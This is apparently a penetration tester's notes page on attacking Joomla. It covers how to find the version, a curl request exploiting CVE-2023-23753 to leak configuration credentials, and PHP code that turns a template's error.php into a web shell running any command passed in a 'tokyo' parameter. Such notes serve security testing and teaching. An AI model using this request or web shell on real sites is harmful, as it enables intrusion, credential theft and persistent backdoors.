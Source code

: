 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
### <mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

<mark style="color:orange;">**`Recommended`**</mark><mark style="color:purple;">: Use the admin interface or the</mark> <mark style="color:orange;">**`Joomla\CMS\Version`**</mark> <mark style="color:purple;">class programmatically.</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Template Manipulation</mark>

* <mark style="color:purple;">Navigate to</mark> <mark style="color:orange;">**`site templates`**</mark>
* <mark style="color:purple;">Look for writable files (Normally</mark> <mark style="color:orange;">**`error.php`**</mark> <mark style="color:purple;">is a good one to look at)</mark>
* <mark style="color:purple;">Add this code at the beginning of the file:</mark>

{% code overflow="wrap" %}
```php
if (isset($_REQUEST['tokyo'])) {
  system($_REQUEST['tokyo']);
  die();
}
```
{% endcode %}

* <mark style="color:purple;">Visiting a page that doesn't exist will raise a error page, if the argument passed is</mark> <mark style="color:orange;">**`tokyo`**</mark><mark style="color:purple;">, it will be run with</mark> <mark style="color:orange;">**`system`**</mark> <mark style="color:purple;">; allowing to code execution:</mark>

```url
/nonexistentsite?tokyo=id
```
{% endhint %}

